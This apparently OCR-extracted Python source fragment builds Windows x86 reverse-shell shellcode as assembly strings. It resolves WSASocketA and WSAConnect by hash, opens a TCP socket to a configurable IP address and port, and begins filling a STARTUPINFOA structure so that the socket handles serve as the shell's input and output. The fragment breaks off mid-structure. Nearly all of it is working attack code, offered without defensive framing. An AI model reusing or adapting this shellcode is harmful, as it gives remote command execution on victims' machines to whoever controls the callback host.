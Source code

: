 ```py
            "       call dword ptr [ebp+0x04]       ;",  # Call find_function
            "       mov [ebp+0x20], eax             ;",  # Save WSASocketA address for later usage
            push_wsaconnect_hash,                        # WSAConnect hash
            "       call dword ptr [ebp+0x04]       ;",  # Call find_function
            "       mov [ebp+0x24], eax             ;",  # Save WSAConnect address for later usage
            "   call_wsastartup:                    ;",
            "       mov eax, esp                    ;",  # Move ESP to EAX
            "       xor ecx, ecx                    ;",
            "       mov cx, 0x590                   ;",  # Move 0x590 to CX
            "       sub eax, ecx                    ;",  # Substract CX from EAX to avoid overwriting the structure later
            "       push eax                        ;",  # Push lpWSAData
            "       xor eax, eax                    ;",  # Null EAX
            "       mov ax, 0x0202                  ;",  # Move version to AX
            "       push eax                        ;",  # Push wVersionRequired
            "       call dword ptr [ebp+0x1C]       ;",  # Call WSAStartup
            "   call_wsasocketa:                     ",
            "       xor eax, eax                    ;",  # Null EAX
            "       push eax                        ;",  # Push dwFlags
            "       push eax                        ;",  # Push g
            "       push eax                        ;",  # Push lpProtocolInfo
            "       mov al, 0x06                    ;",  # Move AL, IPPROTO_TCP
            "       push eax                        ;",  # Push protocol
            "       sub al, 0x05                    ;",  # Substract 0x05 from AL, AL = 0x01
            "       push eax                        ;",  # Push type
            "       inc eax                         ;",  # Increase EAX, EAX = 0x02
            "       push eax                        ;",  # Push af
            "       call dword ptr [ebp+0x20]       ;",  # Call WSASocketA
            "   call_wsaconnect:                     ",
            "       mov esi, eax                    ;",  # Move the SOCKET descriptor to ESI
            "       xor eax, eax                    ;",  # Null EAX
            "       push eax                        ;",  # Push sin_zero[]
            "       push eax                        ;",  # Push sin_zero[]
            f"      push {hex_ip(ip_address)}       ;",  # Push address 
            f"      mov ax, {hex_port(port)}        ;",  # Move the port
            "       shl eax, 0x10                   ;",  # Left shift EAX by 0x10 bytes
            "       add ax, 0x02                    ;",  # Add 0x02 (AF_INET) to AX
            "       push eax                        ;",  # Push sin_port & sin_family
            "       push esp                        ;",  # Push pointer to the sockaddr_in structure
            "       pop edi                         ;",  # Store pointer to sockaddr_in in EDI
            "       xor eax, eax                    ;",  # Null EAX
            "       push eax                        ;",  # Push lpGQOS
            "       push eax                        ;",  # Push lpSQOS
            "       push eax                        ;",  # Push lpCalleeData
            "       push eax                        ;",  # Push lpCalleeData
            "       add al, 0x10                    ;",  # Set AL to 0x10
            "       push eax                        ;",  # Push namelen
            "       push edi                        ;",  # Push *name
            "       push esi                        ;",  # Push s
            "       call dword ptr [ebp+0x24]       ;",  # Call WSAConnect
            "   create_startupinfoa:                 ",
            "       push esi                        ;",  # Push hStdError
            "       push esi                        ;",  # Push hStdOutput
            "       push esi                        ;",  # Push hStdInput
            "       xor eax, eax                    ;",  # Null EAX
            "       push eax                        ;",  # Push lpReserved2
            "       push eax                        ;",  # Push cbReserved2 & wShowWindow
            "       mov al, 0x80                    ;",  # Move 0x80 to AL
            "       xor ecx, ecx                    ;",  # Null ECX
            "       mov cl, 0x80                    ;",  # Move 0x80 to CX
            "       add eax, ecx                    ;",  # Set EAX to 0x100
            "       push eax                        ;",  # Push dwFlags
```